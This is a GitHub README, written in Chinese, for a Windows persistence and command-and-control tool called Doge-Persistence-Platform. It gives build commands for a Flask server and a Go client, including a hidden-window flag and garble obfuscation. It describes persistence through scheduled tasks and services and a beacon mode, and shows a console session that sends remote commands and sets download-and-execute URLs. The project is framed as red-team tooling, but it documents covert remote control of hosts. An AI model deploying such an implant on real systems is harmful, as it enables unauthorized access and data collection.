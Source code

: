 - 本人github的项目可能目前主要分为两大类，🐸Frog系列为自动化扫描方向，🐶Doge系列为免杀及内网渗透方向

# 🐶Doge-Persistence-Platform

本项目短期内不开源

## Intro

Doge-Persistence-Platform

DPP windows控制持久化辅助平台

在红蓝对抗/APT/高级渗透测试中，持久化控制已成为一个不可或缺的能力，

虽然，Cobalt Strike与MSF已经在一定程度上满足需求，

由于其具有较强特征，功能过剩，二开麻烦等原因，

从零开始完成了本项目

```
注: 本项目在完成过程中未参考任何项目源码

注: 本项目总用时为一周左右，仅为项目demo
```
## Arch
本项目采用

client----server----console的架构

client与console为golang编译的二进制程序，在windows下运行

server为python flask框架下的web api，在linux vps运行

## Build
server:
```
python3 -m pip install flask

export FLASK_APP=server.py

flask run --host=0.0.0.0 --port=9000

port可自定义
server.py内的key可自定义
heartbeat_raw为初始心跳时间可自定义

```

client:
```
将server端_url()函数内的url替换为启动url，不带最后一个/
例如：http://100.100.100.100:9000

将var init_key替换为你server中自定义的key

go build -gcflags=-trimpath=$GOPATH -asmflags=-trimpath=$GOPATH -ldflags "-w -s -H windowsgui" main.go

or

garble.exe build -trimpath -ldflags "-w -s -H windowsgui" main.go
```

console:
```
替换sKey为server中的自定义key
替换connUrl为server的url

go build console.go
```

## Use

### client
客户端支持两种上线方式：

#### 单次上线

单次上线为本项目的最初计划的方式，目的是配合系统持久化手段进行控制持久化，

例如：

	采用计划任务的方式，把客户端以单次运行方式执行，设定每1小时执行一次即可。

	采用服务自启动的方式，把客户端以单次运行方式执行，设定每次开机执行一次即可。

单次上线不常驻后台，每次执行即可与api对接一次，接收相关信息。

运行方式(以下三选一即可):
```
client.exe -o
client.exe --once
client.exe once
```
#### beacon上线
beacon上线为在开发过程中加入的上线方式，可以代替简单功能的C2。

常驻后台，心跳包定时请求api

运行方式:
```
client.exe -b
client.exe --beacon
client.exe beacon
```

### console
控制台采用命令行交互

运行方式：
```
在powershell中:
./console.exe
```
## 运行截图
![1](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/1.png)
![2](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/2.png)
![3](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/3.png)
## Features
```
PS D:\> .\console.exe
       _            _            _              _
      /\ \         /\ \         /\ \           /\ \
     /  \ \____   /  \ \       /  \ \         /  \ \
    / /\ \_____\ / /\ \ \     / /\ \_\       / /\ \ \
   / / /\/___  // / /\ \ \   / / /\/_/      / / /\ \_\
  / / /   / / // / /  \ \_\ / / / ______   / /_/_ \/_/
 / / /   / / // / /   / / // / / /\_____\ / /____/\
/ / /   / / // / /   / / // / /  \/____ // /\____\/
\ \ \__/ / // / /___/ / // / /_____/ / // / /______
 \ \___\/ // / /____\/ // / /______\/ // / /_______\
  \/_____/ \/_________/ \/___________/ \/__________/


--------Welcome to Doge-Persistence-Platform--------

Input The Secret-Key:DogeTest


1.列出所有主机           | List all hosts                      | all

2.列出所有n天内上线主机  | List all hosts connected in n days  | days

3.列出所有心跳上线主机   | List all heartbeats hosts           | beacon

4.列出所有单次上线主机   | List all online once hosts          | once

Input(num or word): 1

1 | DESKTOP-DogeTest;8.8.8.8:192.168.1.1; heartbeat: 60 min ; 2021/02/08,17:01:29
2 | DESKTOP-DogeTest1;8.8.8.8:192.168.1.2; once ; 2021/02/07,11:05:41

选择目标主机(输入0回退)  | Target Num(input 0 back)

Input:1


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 2

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1


输入需要下发的命令 | Input the command

Input(input 0 back): whoami

命令下发成功! | Success!
Press any key to continue...


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 1

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1
OnlineType: heartbeat
Last connection: 2021/02/08,17:01:29

Press any key to continue...
Username: DESKTOP-DogeTest\sandbox
Hostname: DESKTOP-DogeTest
InternalIP: 192.168.1.1

ProcessList:
xxx.exe, yyy.exe, qqq.exe

systeminfo:
xxxxxxx

Press any key to continue...
```
